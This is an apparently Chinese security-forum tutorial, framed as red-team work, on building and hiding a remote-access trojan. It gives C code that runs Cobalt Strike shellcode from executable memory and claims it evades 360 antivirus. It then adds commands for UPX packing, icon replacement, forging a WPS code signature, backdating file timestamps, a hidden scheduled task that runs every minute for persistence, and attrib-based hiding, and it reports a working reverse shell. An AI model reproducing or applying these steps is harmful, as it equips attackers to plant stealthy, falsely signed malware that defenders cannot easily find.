# 红队视角下的隐匿木马文件 实现持久化控制 - 先知社区

红队视角下的隐匿木马文件 实现持久化控制

- - -

### 前言

在红蓝对抗的过程中，远控木马起到了相当重要的作用，而面对蓝队技术人员的种种查杀，远控木马如何在目标机器上长久的存活下去

### 免杀马制作

cobalt strike生成shellcode.c  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103223649-6c30ee5e-7a56-1.png)  
可以根据目标机器安装的杀毒软件制作有针对性的免杀马，当然，能够BypassAV是最好不过的了，为了节约时间成本，选择使用申请动态内存的方式加载shellcode生成免杀木马

```plain
#include <Windows.h>
#include <stdio.h>
#include <string.h>
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口
unsigned char buf[] = 
"shellcode";
main()
{
  char *Memory; 
  Memory=VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(Memory, buf, sizeof(buf));
  ((void(*)())Memory)();
}
```

可以通过360的静态免杀，动态操作也没有任何报毒提示  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103224138-18a68c70-7a57-1.png)

### 文件加壳

这里生成的shellcode为64为的执行代码，使用upx进行加壳

**项目地址**

[https://github.com/upx/upx](https://github.com/upx/upx)

```plain
.\upx.exe C:\Users\33519\Desktop\shellcode.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103224231-37d6af94-7a57-1.png)  
文件加壳后属性对比  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103224402-6e264bd6-7a57-1.png)

### 替换图标

使用BeCyIconGrabberPortable提取图标  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103224500-90f2c8e2-7a57-1.png)  
**项目地址**  
[https://github.com/JarlPenguin/BeCyIconGrabberPortable](https://github.com/JarlPenguin/BeCyIconGrabberPortable)  
使用Resource hacker替换木马程序的图标  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103224527-a0b6555a-7a57-1.png)

### 伪造签名

使用SigThief对木马程序进行数字签名伪造  
**项目地址**  
[https://github.com/secretsquirrel/SigThief](https://github.com/secretsquirrel/SigThief)  
使用wps的数字签名进行伪造

```plain
python .\sigthief.py -i wps.exe -t .\shellcode.exe -o shellcode2.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103225005-46af7842-7a58-1.png)

-   \-i 自带签名的文件
-   \-t 未加签名的文件
-   \-o 输出文件  
    shellcode2为伪造数字签名后的木马文件  
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231103225049-6095c0f4-7a58-1.png)

### 伪造文件修改时间

蓝队技术人员通常会在时间顺序上排查攻击者上传的文件，我们上传的木马文件是最新的，所以使用ChTimeStamp伪造文件修改的时间  
**项目地址**  
[https://github.com/MsF-NTDLL/ChTimeStamp](https://github.com/MsF-NTDLL/ChTimeStamp)

```plain
ChTimeStamp.exe C:\Users\canxue\Desktop\shellcode2.exe "C:\Program Files (x86)\360\360Safe\360bps.dat"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103230339-2b89734a-7a5a-1.png)  
360bps.bat为安装360时创建的文件，时间为一月份  
修改前后文件属性对比  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103225115-7071a51a-7a58-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103225159-8a4587cc-7a58-1.png)

通过everything筛查文件不会发现近期上传的木马文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103225215-94533408-7a58-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103225235-9ff7122a-7a58-1.png)

### 计划任务隐藏自启动木马程序

使用SchTask创建隐藏的自启动任务  
**项目地址**  
[https://github.com/0x727/SchTask\_0x727/tree/main](https://github.com/0x727/SchTask_0x727/tree/main)

```plain
选择主机随机进程名作为计划任务程序文件名
将计划任务程序文件复制到 `%AppData%\Microsoft\Windows\Themes\` 中
创建的计划任务名取同一随机进程名
计划任务触发器以分钟为单位，无限期持续
更改 Index、删除 SD 的键值，隐藏计划任务对应的 XML 文件
```

```plain
SchTask.exe shellcode2.exe 1
```

设置每分钟执行一次计划任务，计划任务为执行shellcode2.exe程序  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103225518-01456c02-7a59-1.png)  
被隐藏的计划任务，在注册表中可以看到  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103225550-1460bb66-7a59-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103225610-204bb98a-7a59-1.png)  
一分钟后自动执行木马程序，cobalt strike可以正常接收到反弹的shell  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103225652-39517c58-7a59-1.png)  
可以正常上线，命令也可以正常执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103225808-6684315c-7a59-1.png)

```plain
attrib +s +h +r
```

使用此命令深度隐藏木马文件，即使打开查看隐藏文件选项也无法显示文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103225721-4a46bc62-7a59-1.png)
